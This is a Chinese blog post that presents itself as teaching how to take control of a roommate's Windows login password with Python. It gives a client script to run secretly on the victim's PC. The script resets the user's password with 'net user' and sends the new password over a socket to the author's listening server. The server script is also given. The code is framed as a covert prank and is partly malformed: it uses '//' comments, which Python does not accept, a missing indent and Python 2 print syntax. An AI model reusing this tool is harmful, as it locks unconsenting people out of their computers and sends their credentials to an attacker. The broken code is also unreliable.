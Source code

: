 
--- 
title:  用 Python 控制了室友电脑的开机密码 
tags: []
categories: [] 

---
<img src="https://img-blog.csdnimg.cn/img_convert/18705f5159af26a77f49ec1ee876b934.png">

今天教大家用Python脚本来控制小伙伴们Windows电脑的开机密码。没错就是神不知鬼不觉，用random()随机生成的密码，只有你自己知道哦~

代码分两部分：client端和server端。

**操作方法：**在自己的电脑上运行server端，然后在小伙伴的电脑上运行client端脚本。

**原理：**client端会在你的小伙伴电脑上随机生成一个密码然后通过socket发给server端，也就是你。

<img src="https://img-blog.csdnimg.cn/img_convert/36b3b3cf0264725f8a78ece43962c11e.png" width="69%">

**代码如下：**

client端代码：

```
# client.py：//文件名
import socket //导入用到的模块
import getpass
import subprocess
import random

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM) //创建socket实例
client.connect(('10.0.0.1', 44444)) //连接server端IP地址/端口按你自己实际情况来
user = getpass.getuser() //获取计算机用户名
psd = '' //给一个psd变量（密码）为空
for j in range(1, 9): //生成1-9的随机数
m = str(random.randrange(0, 10))
psd = psd + m
subprocess.Popen(['net', 'User', user, psd]) //在本地执行（类似于cmd命令）
client.send(psd.encode('utf-8')) //将密码发送给server端
back_msg = client.recv(1024)
client.close() //关闭socket
print psd //避免出现差错忘记密码 先在本地打印

```

server端代码：

```
# server.py //文件名
import socket //导入socket

server = socket.socket(socket.AF_INET, socket.SOCK_STREAM) //创建socket
server.bind(('10.0.0.1', 44444)) //绑定IP/端口
server.listen(5) //监听
print('starting....')
conn, addr = server.accept() //连接
print(conn)
print('client addr', addr)
print('ready to recv the passwd...')
client_msg = conn.recv(1024)
print('client passwd changed: %s' % client_msg)
conn.send(client_msg.upper())
conn.close()
server.close()

```
